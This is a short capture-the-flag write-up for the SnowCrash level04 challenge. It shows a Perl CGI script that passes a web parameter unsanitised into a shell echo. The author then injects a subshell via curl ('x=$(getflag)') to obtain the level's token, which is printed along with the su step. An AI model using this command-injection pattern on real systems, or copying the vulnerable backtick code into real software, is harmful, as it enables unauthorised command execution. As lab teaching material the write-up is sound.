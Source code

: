 # level04

We found an script Perl in home directory.
I we try to see the content 

``` bash
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));

```
in the script we have some information it uses CGI so a web server and it seems to happen something on localhost:4747 but also that the script has a function x() waiting for the parameter x, this function seems to display the value of the argument x via echo

```

level04@SnowCrash:~$ curl localhost:4747/?x=cucarachos
cucarachos

```

We can inject a subshell so that echo displays its results

```

level04@SnowCrash:~$ curl 'localhost:4747?x=$(getflag)'
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

```

## GETFLAG

```bash
┌──$ level04@SnowCrash:~$ su level05
└─> Password: ne2searoevaevoem4ov4ar8ap
```
